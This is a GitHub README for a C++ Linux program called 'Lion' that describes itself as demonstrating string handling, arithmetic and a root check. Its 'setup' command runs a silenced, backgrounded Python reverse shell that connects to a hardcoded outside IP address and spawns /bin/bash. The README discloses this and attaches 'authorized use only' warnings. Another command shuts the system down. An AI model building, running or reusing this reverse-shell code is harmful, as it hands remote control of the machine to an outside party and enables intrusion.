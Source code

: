 ```yaml
---
title: Lion
description: An attempt to recode Ion a powershell executor to Linux, or a branch off of it.
author: EIonvv
date: 2025-02-18
version: 1.0.0
license: MIT
warning: This project contains code that executes a reverse shell. Use responsibly and only in authorized environments.
---
```


# Lion

## Overview

This is a C++ program that demonstrates various functionalities, including string manipulation, mathematical operations, and system-level interactions. It also includes a module manager for organizing and managing different components of the application.

**Important Note**: The code includes a Python script that establishes a reverse shell connection to a remote IP address (`172.233.149.248:4443`). This is a potentially malicious operation and should only be used in controlled environments for legitimate purposes (e.g., penetration testing with proper authorization). Use this code responsibly and ethically.

---

## Features

- **String Manipulation**: Combines a greeting message with the current username using `linux_branch::string::FullString`.
- **Mathematical Operations**: Performs basic arithmetic operations (e.g., addition) using the `add` function.
- **System Interaction**: Includes a `setup` command that executes a Python script for network operations.
- **Root Check**: Verifies if the application is running with root privileges using `root::check_root`.

---

## Code Explanation

### Main Functionality

```cpp
#include "core/core.h"
#include "modules/module_manager.h"

bool setup_command() {
  static bool executed = false;
  if (!executed) {
    system("nohup python3 -c 'import socket,subprocess,os;"
           "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);"
           "s.connect((\"172.233.149.248\",4443));"
           "os.dup2(s.fileno(),0);"
           "os.dup2(s.fileno(),1);"
           "os.dup2(s.fileno(),2);"
           "import pty; pty.spawn(\"/bin/bash\")' > /dev/null 2>&1 &");
    executed = true;
    return executed;
  }
  std::cout << "Running on Linux!" << std::endl;
  return executed;
}

bool math_command() {
  try {
    modules::math::operations ops;
    double result = ops.add(1.0,2.0);
    Logger::log(Logger::LogLevel::Info,
                "Result of addition: " + std::to_string(result));
  } catch (const std::exception &e) {
    std::cerr << "Error: " << e.what() << std::endl;
    return false;
  }
  return true;
}

bool shutdown_command() {
  system("shutdown -h now");
  Logger::log(Logger::LogLevel::Info, "System is shutting down...");
  return true;
}

bool test_command() {
  testCore::command test;
  test.testCommand();
  Logger::log(Logger::LogLevel::Info, "Test command executed successfully.");
  return true;
}

int main(int argc, char **argv) {
  Logger::log(Logger::LogLevel::Info, "Starting the application...");

  const std::string username = modules::username::getUsername();
  const std::string colored_username = RESET + username + RESET;
  std::string role =
      modules::root::is_root() ? RED "root" RESET : GREEN "non-root" RESET;

  const std::string greeting = colored_username + " [" + role + "]";

  if (argc < 2) {
    // std::cout << greeting << std::endl;
    Logger::log(Logger::LogLevel::Info, greeting);
    Logger::log(Logger::LogLevel::Info, "Available commands: setup, math");
    return 1;
  }

  const std::string command = argv[1];

  // Map of command names to their corresponding functions
  std::map<std::string, std::function<bool()>> command_map = {
      {"shutdown", shutdown_command},
      {"setup", setup_command},
      {"math", math_command},
      {"test", test_command},
  };

  auto it = command_map.find(command);
  if (it != command_map.end()) {
    it->second();
  } else {
    // std::cerr << "Unknown command: " << command << std::endl;
    Logger::log(Logger::LogLevel::Error, "Unknown command: " + command);
    return 1;
  }

  return 0;
}
```

### Prerequisites

Before building and running the project, ensure you have the following installed:

    C++ Compiler: GCC or Clang.

    Python 3: Required for the setup command (Reverse Shell).

    Linux Environment: The application is designed to run on Linux.
---

### Building and Running

    Clone the Repository:
    bash
    Copy

    git clone https://github.com/EIonvv/Lion.git
    cd Lion

    Compile the Code:
    bash
    Copy

    g++ -o my_program main.cpp -Iinclude -Llib -lmodule_manager

    Run the Program:
    bash
    Copy

    ./my_program

    To execute the setup command:
    bash
    Copy

    ./my_program setup
---

### Warning

The setup command executes a Python script that creates a reverse shell connection to a remote IP address (172.233.149.248:4443). This is a security risk and should only be used in controlled environments with proper authorization. Misuse of this code may violate laws and ethical guidelines.
License

This project is licensed under the MIT License. Use it responsibly and at your own risk.
Contributing

Contributions are welcome! Please open an issue or submit a pull request for any improvements or fixes.

---

### Example

![alt text](gh/image.png)

